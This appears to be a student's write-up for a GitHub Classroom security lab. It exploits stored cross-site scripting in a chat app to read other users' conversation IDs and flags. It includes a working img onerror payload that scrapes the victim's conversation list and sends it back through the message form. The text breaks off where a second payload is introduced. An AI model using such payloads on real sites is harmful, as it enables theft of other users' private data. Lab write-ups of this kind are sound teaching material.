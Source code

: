 [![Review Assignment Due Date](https://classroom.github.com/assets/deadline-readme-button-24ddc0f5d75046c5622901739e7c5dd533143b0c8e959d652212380cedb1ea36.svg)](https://classroom.github.com/a/1vxbBob6)

# 7 Security

The first 3 vulnerabilities are Cross-Site Scripting (XSS)

* CWE-20 (Improper Input Validation)
* CWE-79 (Improper Neutralization of Input During Web Page Generation)



## First, get the ID of the conversation between Donald and Elon

First, I injected an image tag with an `onerror` event to execute JavaScript when the image fails to load, which is always in this case since the source is invalid:

```html
<img src="invalid" onerror="fetch('/conversation/666b14ed917df14b').then(async resp =>{
   if (document.querySelector('#header .name').innerText !== 'Van Hove Timothée') {
    let t = Array(...document.querySelectorAll('#conversations-list')).map(c => c.innerHTML.trim()).join('|||');
    document.getElementById('message').innerHTML = t;
    document.getElementById('messageButton').click()
}
});"/>
```

Then click on "Donald Trump"

![](img/conv_id-png.png)



From this injection, the conversation ID was extracted from the URL, identified as `3607a0ed4fd6eb43`.



## Flag 1 and 2

Using another crafted `onerror` event, I exploited the same XSS vulnerability to fetch conversation details between Elon Musk and Donald Trump, searching for any occurrence of flags:

